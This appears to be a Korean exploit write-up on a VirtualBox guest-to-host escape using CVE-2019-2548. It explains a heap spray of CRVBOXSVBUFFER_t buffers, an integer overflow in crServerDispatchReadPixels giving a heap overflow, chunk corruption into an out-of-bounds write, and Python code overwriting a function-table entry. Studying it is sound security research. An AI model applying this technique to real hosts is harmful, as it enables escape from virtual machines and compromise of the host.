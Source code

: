 1. `CRVBOXSVBUFFER_t`를 메모리에 Heap Spray한다. 이 때 `alloc_buf`를 사용하는데, 메모리가 연속적으로 할당되기 때문에, 버퍼 구조체의 pData역시 버퍼 구조체 바로 옆에 할당되게 된다.

2. 그러므로 `alloc_buf(client, 0x20)`으로 0x20크기의 `CRVBOXSVBUFFER_t`들을 힙에 많이 할당한다. 

![image](https://user-images.githubusercontent.com/46625602/78130521-6c397080-7454-11ea-9c2d-dc384b74fbfe.png)

3. 짝수개의 Buffer ID를 Free한다.

![image](https://user-images.githubusercontent.com/46625602/78130541-72c7e800-7454-11ea-96b1-8aff6367816d.png)

## Corrupt Chunk (CVE-2019-2548)

1. crServerDispatchReadPixels에서 integer overflow가 일어나는 것을 이용하여 0x20크기의 구조체를 할당한다.

 * bytes_per_row = 0x1FFFFFFD / height = 8 ⇒ 0x100000020

뒤의 interger overflow를 할당하여 msg_len을 0x20으로 속인 뒤에 해당 박스에 0x38 크기의 박스를 할당한다.

2. 위 구조체는 Spray된 힙영역의 중간에 Free된 영역에 삽입되고, 크기가 0x38인 것을 이용하여 0x18만큼 Heap overflow가 발생하여 다음 구조체의 uiID와 uiSize를 수정할 수 있다.

* uiID = 0xdeadbeef / uiSize = 0xffffffff

![image](https://user-images.githubusercontent.com/46625602/78130592-8b380280-7454-11ea-94cc-69012df932e6.png)

3. 수정된 uiID를 가진 구조체를 사용하여 다음 청크를 수정시킬 수 있다. 이 때 uiSize가 0xffffffff이기때문에 다음 청크는 pData까지 원하는 값으로 바꿀 수 있다.

* uiID = 0xcafebabe / uiSize = 0xeeeeeeee / pData = 원하는 값

![image](https://user-images.githubusercontent.com/46625602/78130621-9ab74b80-7454-11ea-9a7a-8a091a974d0e.png)

4. 이제 uiID가 0xdeadbeef인 구조체로 pData를 설정하고 0xcafebabe인 구조체를 이용해 OOB Write 를 수행할 수 있다.


![image](https://user-images.githubusercontent.com/46625602/78112942-e8728a80-7439-11ea-982a-11099fe7bb68.png)

![image](https://user-images.githubusercontent.com/46625602/78113289-78b0cf80-743a-11ea-920c-c4b4679dc5cd.png)

---

## function table 변조하기

```python
def svcfull_msg(addr) :
    msg = (
	pack("<I", 0xdeadcafe) #uiID
	+ pack("<I", 0xeeeeeeee) #uiSize
	+ pack("<Q", addr) #pData
	)
    return msg
    
# overwrite uid, uisize, pdata
    hgcm_call(client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0xdeadbeef, 0xffffffff, 0x30, svcfull_msg(crServerDispatchBoundsInfoCR)])
    print("overwrite crServerDispatchBoundsInfoCR Table addrheap (offset : 0x30)")
```
